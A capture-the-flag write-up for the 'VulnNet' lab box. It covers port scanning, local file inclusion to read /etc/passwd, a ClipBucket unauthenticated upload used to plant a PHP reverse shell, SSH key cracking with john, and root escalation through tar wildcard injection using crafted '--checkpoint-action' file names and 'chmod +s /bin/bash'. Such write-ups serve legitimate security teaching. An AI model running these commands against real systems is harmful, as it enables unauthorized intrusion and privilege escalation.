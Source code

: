 ## VulnNet

# Enumeration
add vulnnet.thm to /etc/hosts
```
# Nmap 7.91 scan initiated Sun Apr 25 10:52:39 2021 as: nmap -sCV -oN nmap/initial -vvv -p 22,80 10.10.238.178
Nmap scan report for vulnnet.thm (10.10.238.178)
Host is up, received timestamp-reply ttl 61 (0.15s latency).
Scanned at 2021-04-25 10:52:40 PDT for 12s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ea:c9:e8:67:76:0a:3f:97:09:a7:d7:a6:63:ad:c1:2c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwkZ4lon+5ZNgVQmItwLRcbDT9QrJJGvPrfqsbAnwk4dgPz1GDjIg+RwRIZIwPGRPpyvd01W1vh0BNs7Uh9f5RVuojlLxjqsN1876Jvt5Ma7ajC49lzxmtI8B5Vmwxx9cRA8JBvENm0+BTsDjpaj3JWllRffhD25Az/F1Tz3fSua1GiR7R2eEKSMrD38+QGG22AlrCNHvunCJkPmYH9LObHq9uSZ5PbJmqR3Yl3SJarCZ6zsKBG5Ka/xJL17QUB5o6ZRHgpw/pmw+JKWUkodIwPe4hCVH0dQkfVAATjlx9JXH95h4EPmKPvZuqHZyGUPE5jPiaNg6YCNCtexw5Wo41
|   256 0f:c8:f6:d3:8e:4c:ea:67:47:68:84:dc:1c:2b:2e:34 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA8L+SEmXtvfURdTRsmhaay/VJTFJzXYlU/0uKlPAtdpyZ8qaI55EQYPwcPMIbvyYtZM37Bypg0Uf7Sa8i1aTKk=
|   256 05:53:99:fc:98:10:b5:c3:68:00:6c:29:41:da:a5:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKNuqHl39hJpIduBG9J7QwetpgO1PWQSUDL/rvjXPiWw
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 8B7969B10EDA5D739468F4D3F2296496
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: VulnNet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 25 10:52:52 2021 -- 1 IP address (1 host up) scanned in 13.20 seconds
```
Pretty simple configuration so far so lets just check out the web server

# Web Server Port 80
Nothing stands out initially so ultimately we check out the js scripts on the page and ultimately find the following code
"http://vulnnet.thm/index.php?referer="
so looks like we have a paramter we can test for LFI,
curl http://vulnnet.thm/index.php?referer=/etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
lightdm:x:106:113:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:107:117::/nonexistent:/bin/false
kernoops:x:108:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
pulse:x:109:119:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:110:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
hplip:x:111:7:HPLIP system user,,,:/var/run/hplip:/bin/false
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
mysql:x:112:123:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
```
Sure enough we have LFI as referer is acting as a get request so we have a server-management user on the system, so we can check common files for credentials.
We eventually find credentials for the webserver in /etc/apache2/.htpasswd

However it seems like the credentials aren't applicable here. Eventually we do enumeration for subdomains and find one broadcast.vulnnet.thm that requires credentials and we gain access.

# broadcast.vulnnet.thm
```
<!-- ClipBucket version 4.0 -->
```

we find the version of the application and can look up and existing exploits
```
2. Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the webserver with no
authentication required.

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/photo_uploader.php"
```
seems like we can start by trying to upload a reverse shell and gain a foothold, so we can form the following curl request
```
curl -u developers:REDACTED -F "file=@revshell.php" -F "plupload=1" -F "name=revshell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```

sure enough we get a revshell and foothold as the www-data user

# Privilege Escalation
On the system we check the usual spots and can find backupcredentials in /var/backups that are owned by the server-management user and we can download to our system and view we find ssh credentials
we go ahead and use ssh2john and then crack the password using john and can then ssh as the server-mangement user and find the user flag in our home directory

# Root Escalation
We can't access sudo commands with the same crednetials so we check cronjobs, and see the following line
```
*/2   * * * *   root    /var/opt/backupsrv.sh
```
```
server-management@vulnnet:~$ cat /var/opt/backupsrv.sh
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup.
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```
Looks like this binary uses tar to make a backup of our Documents folder.
There is a way to abuse this to get the binary to get the tar command to achieve code execution for us so we will have it give suid permission to /bin/bash and then spawn a privileged shell that way as follow
```
server-management@vulnnet:~/Documents$ echo "" > "--checkpoint-action=exec=sh test.sh"
server-management@vulnnet:~/Documents$ echo "" > --checkpoint=1
server-management@vulnnet:~/Documents$ echo "chmod +s /bin/bash" > test.sh
```
The command we execute can be different such as sending a reverse shell to a listener, etc
We can then spawn a roots shell with 
/bin/bash -p
and then find the root flag in the root directory
